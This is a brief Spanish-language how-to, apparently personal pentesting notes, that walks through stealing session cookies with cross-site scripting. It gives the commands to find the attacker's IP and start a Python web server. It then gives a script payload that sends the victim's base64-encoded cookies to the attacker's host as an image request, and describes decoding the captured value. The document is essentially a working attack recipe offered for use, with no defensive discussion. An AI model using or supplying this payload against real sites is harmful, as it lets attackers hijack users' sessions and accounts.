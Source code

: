 # Ataque de Robo de Cookies con XSS

Buscar cual es la dirección IP de la máquina atacante:  
`ifconfig`  

Montar un servidor web para almacenar la cookie que voy a robar:  
`python3 -m http.server 80`  

Ejecutar el siguiente codigo de XSS. Este codigo para a buscar por una imagen almacenada en la IP del atacante.  
Obviamente la imagen no existe, pero la víctima va a hacer una petición al servidor web creado anteriormente y va a mandar la cookie de la sesión en ese paquete.  

`<script>var i=new Image(); i.src="http://IP-DEL-ATACANTE/?cookie="+btoa(document.cookie);</script>`  

Finalmente, decodificar el texto capturado, ya que está en formato Base64. Esto se puede realizar con alguna herramienta en línea.
